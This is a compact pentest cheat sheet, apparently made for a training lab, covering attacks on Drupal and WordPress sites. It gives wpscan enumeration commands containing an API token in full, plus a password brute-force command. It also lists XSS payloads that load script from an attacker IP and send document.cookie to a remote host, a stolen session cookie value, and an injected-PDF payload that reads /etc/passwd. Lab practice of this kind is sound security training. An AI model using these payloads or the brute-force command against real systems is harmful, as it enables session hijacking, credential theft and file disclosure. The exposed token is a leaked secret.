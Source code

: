 # web

## Drupal

```
curl -s http://blog.inlanefreight.local | grep Drupal
```

#### Droopscan

```
droopescan scan drupal -u http://blog.inlanefreight.local/
```

## Word Press

```
wpscan --url http://ir.inlanefreight.local/ --api-token 51vO4v72sy7CxiqSaaIMsSH6V6SHKlPNmrmg7vcydB8 -e ap -t 500 -t 64
```

```
wpscan --url http://ir.inlanefreight.local/ --api-token 51vO4v72sy7CxiqSaaIMsSH6V6SHKlPNmrmg7vcydB8 -e at,ap --plugins-detection mixed -t 64
```

#### WP User

```
wpscan -e u -t 500 --url http://ir.inlanefreight.local
```

#### WP User Login Bruteforce

```
wpscan --url http://ir.inlanefreight.local -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top1000.txt -U ilfreightwp
```

## XXS

#### Sesson HiJacking

```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

for cookie

```
"><script>new Image().src='http://10.10.14.3/index.php?c='+document.cookie</script>
```

Then add the cookie to the cookie plugin

```
session
fcfaf93ab169bc943b92109f0a845d99
```

## SSRF

https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md Look at exploiting PDF file

#### Payload

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
